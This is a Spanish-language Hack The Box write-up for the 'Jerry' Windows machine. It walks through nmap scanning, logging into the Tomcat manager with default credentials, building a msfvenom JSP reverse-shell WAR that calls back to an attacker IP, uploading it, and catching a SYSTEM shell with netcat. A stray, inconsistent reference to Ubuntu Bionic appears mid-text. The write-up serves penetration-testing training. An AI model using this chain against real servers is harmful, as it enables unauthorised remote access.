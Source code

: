 ```yaml
---
layout: single
title: Jerry - Hack The Box
excerpt: "Jerry es una maquina donde estaremos explotando una vulnerabilidad en Tomcat, en el cual comprometeremos la maquina mediante un archivo war malicioso."
date: 2023-01-29
classes: wide
header:
  teaser: /assets/images/htb-writeup-jerry/Jerry.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:

- hackthebox
- eJTP
- Fácil
- Windows

tags:

- Information Leakage
- Tomcat
---
```


![Jerry.png](/assets/images/htb-writeup-jerry/Jerry.png)

Certificaciones a aplicar: eJPT

Dificultad: Fácil

Habilidades: 

- Information Leakage
- Abusing Tomcat [Intrusion & Privilege Escalation]

# IP de la Maquina

10.10.10.95

# Reconocimiento

Identificando el sistema operativo.

```bash
whichSystem.py 10.10.10.95
```

![Hackforce-2022-12-18-18-37-24.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-18-37-24.png)

Escaneo de los puertos y guardamos en formato grep en el ficherito allPorts.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts
```

![Hackforce-2022-12-18-18-48-57.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-18-48-57.png)

Función extractPorts.

```bash
extractPorts allPorts
```

![Hackforce-2022-12-18-18-49-49.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-18-49-49.png)

# Análisis de Vulnerabilidades

Buscando versiones y servicios que corren para esos puertos y lo guardamos en formato nmap en el ficherito targeted.

```bash
nmap -sCV -p80 10.10.10.95 -oN targeted
```

![Hackforce-2022-12-18-19-00-49.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-19-00-49.png)

Vemos que estamos ante un apache tomcat y nos muestra la version.

Vamos a identificar ante que nos estamos enfrentando de la siguiente manera colocamos en el navegador launchpad 4ubuntu0.5 y nos dara el siguiente resultado.

![Hackforce-2022-12-11-18-07-31.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-11-18-07-31.png)

De esta manera vemos que estamos ante un Ubuntu Bionic.

Vamos a verificar con whatweb  y a ver que nos reporta la herramienta.

```bash
whatweb http://10.10.10.95:8080
```

![Hackforce-2022-12-18-19-03-36.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-19-03-36.png)

Vemos poco solo que estamos ante un Tomcat de version 7.0.88.

con whatweb y el parámetro -v nos mostrara un poco mas de información y de manera mas ordenada.

```bash
whatweb http://10.10.10.95:8080 -v

```

![Hackforce-2022-12-18-19-14-20.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-19-14-20.png)

Igual no logramos ver nada en concreto a si que vamos a proceder a inspeccionar la web.

 

Vemos que es un panel de tomcat.

![Hackforce-2022-12-18-19-40-55.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-19-40-55.png)

Vamos a probar una ruta que suele venir siempre cuando hay un tomcat. 

10.10.10.95:8080/manager/html.

![Hackforce-2022-12-18-19-43-27.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-19-43-27.png)

Vemos que nos solicita credenciales para acceder.

Como no disponemos de credenciales, lo habitual es probar las que vienen por default en la aplicación.

Si ingresamos las credenciales que vienen por default nos mostrara lo siguiente.

![Hackforce-2022-12-18-19-47-53.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-19-47-53.png)

Si leemos detenidamente lo que nos dice, veremos que pone como se deberia configurar las credenciales de acceso y vemos 2 campos interesantes, username y password.

Colocamos las credenciales que encontramos al ver el archivo anterior y probamos.

![Hackforce-2022-12-18-19-51-20.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-19-51-20.png)

Como vemos hemos podido ingresar, ahora observaremos detenidamente que podemos hacer.

Vemos que podemos subir nuestro propio archivo war.

![Hackforce-2022-12-18-19-53-30.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-19-53-30.png)

Lo que trataremos de hacer sera subir un war malicioso para que lo podamos ejecutar desde el panel de aplicaciones.

# Explotación

Vamos a generar un war malicioso con msfvenom.

```bash
msfvenom -l payloads | grep java
```

![Hackforce-2022-12-18-20-04-18.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-20-04-18.png)

Con este comando listamos los payloads disponibles en java, porque este nos permitirá generar el war malicioso. En este caso el que nos interesa es el que pone java/jsp_shell_reverse_tcp para entablarnos una conexión inversa en la maquina victima.

Luego nos dirigimos al directorio content y creamos el payload con msfvenom.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f war -o shell.war
```

![Hackforce-2022-12-18-20-16-25.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-20-16-25.png)

Listo ahi tendríamos nuestro war malicioso creado.

Ahora nos movemos el war malicioso a nuestro directorio de descargas y lo subimos a tomcat.

![Hackforce-2022-12-18-20-20-37.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-20-20-37.png)

Así se miraría nuestro war malicioso en el servidor.

![Hackforce-2022-12-18-20-22-55.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-20-22-55.png)

Ahora nos ponemos en escucha con netcat y ejecutamos el war malicioso.

```bash
rlwrap nc -nlvp 443
```

![Hackforce-2022-12-18-20-25-47.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-20-25-47.png)

Con esto deberíamos ganar acceso a la maquina y estaríamos como nt authority system.

![Hackforce-2022-12-18-20-29-47.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-20-29-47.png)

Procedemos a buscar las flags y listo con esto terminaríamos la maquina.

![Hackforce-2022-12-18-20-41-30.png](/assets/images/htb-writeup-jerry/Hackforce-2022-12-18-20-41-30.png)

Ahi podemos visualizar las flags, que como vemos nos dan la de user y root.

# Escalada de Privilegios

En este caso la vulnerabilidad explotada nos brinda los privilegios máximos como NT authority System y podemos hacer cualquier cosa por lo que no hay que elevar privilegios.

Listo con esto tendríamos hecha la maquina por completo, happy hacking.

Les dejo la resolución de la misma por s4vitar [Ver video](https://www.youtube.com/watch?v=bB-M5vPegMk)

